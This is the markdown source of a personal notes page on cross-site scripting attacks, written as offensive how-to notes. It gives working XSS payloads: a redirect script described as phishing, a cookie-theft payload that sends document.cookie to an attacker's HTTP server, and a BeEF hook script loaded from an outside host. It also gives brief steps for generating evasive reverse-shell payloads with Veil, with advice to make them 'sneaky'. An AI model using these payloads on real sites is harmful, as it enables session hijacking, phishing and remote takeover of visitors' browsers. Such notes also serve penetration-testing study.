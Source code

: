 ```yaml
---
layout: post
title: 'Notes | XSS'
permalink: /notes/web/xss/
---
```



# General

If we have a form we can try to insert code, like this:
{% highlight html %}
<script> ... </script>
{% endhighlight %}
If the page execute what are in the form we can make several damage to the page.

There are some examples:
{% highlight html %}
<script> window.location="" </script>
{% endhighlight %}
This will send the target to a different page (phishing).

Also, if we use **deface** we can send a visitor to another part of the webpage. This can break the whole page.

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
{% highlight bash %}
> python -m http.server 80
{% endhighlight %}
or php...:
{% highlight bash %}
> php -S 0.0.0.0:80
{% endhighlight %}

Then we send others cookie to our http server:
{% highlight html %}
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie="+ document.cookie + "')</script>
{% endhighlight %}

# Tools

## BeEF
We can use **BeEF** to capture traffic with XSS.
In a XSS we send:
{% highlight html %}
<script src="http://192.168.1.1:3000/hook.js"></script>
{% endhighlight %}

##### for both, reflected and stored

Then in the **BeEF** panel (http://localhost:3000/hook.js) we can registred the IP who open the page.

We can use the **commands** tab to send scripts to a victim.

## Veil Framework
First we need to install [Veil](https://github.com/Veil-Framework/Veil/).
After the installation we need to start Veil.

We can list everything with the command **list**, use the **Evasion** option. Then **list** again to get all the reverse shell payload.
It is recommendable to change the variables to be more *sneaky*.
##### similar use as metasploit
